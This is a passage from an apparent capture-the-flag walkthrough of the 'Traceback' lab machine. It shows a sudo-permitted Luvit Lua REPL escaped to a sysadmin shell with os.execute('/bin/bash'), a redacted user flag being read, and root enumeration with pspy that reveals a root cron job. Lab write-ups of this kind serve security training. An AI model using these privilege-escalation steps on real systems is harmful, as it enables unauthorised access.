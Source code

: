 #### Exploiting lua script

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> 
```

Let us use the [GTFOBins](https://gtfobins.github.io/gtfobins/lua/#shell) payload to get a shell.

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
Unhandled key(s): \010
> os.execute("/bin/bash")
sysadmin@traceback:/home/webadmin$
```

We now have a shell as sysadmin. Let us see, if we can read user.txt yet.

```bash
sysadmin@traceback:~$ ls -lh
total 4.2M
-rwxrwxr-x 1 sysadmin sysadmin 4.2M Aug 24  2019 luvit
-rw------- 1 sysadmin sysadmin   33 Jul 29 07:57 user.txt

sysadmin@traceback:~$ cat user.txt 
111ab***************************
```

### Privesc to root

Now that we have a shell as `sysadmin`, let us enumerate the system to find a way to escalate our privileges to root.

#### Enumeration as sysadmin

Let us transfer [pspy](https://github.com/DominicBreuker/pspy) to the machine and check out the running processes.

```bash
sysadmin@traceback:/tmp$ ./pspy64                                                                                     
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855                                                                                                                                               
     ██▓███    ██████  ██▓███ ▓██   ██▓        
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒        
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░        
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░        
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░        
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒         
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░         
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░                      
                   ░           ░ ░                                                                                    
                               ░ ░

[...]
CMD: UID=0    PID=1576   | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
CMD: UID=0    PID=1580   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
```
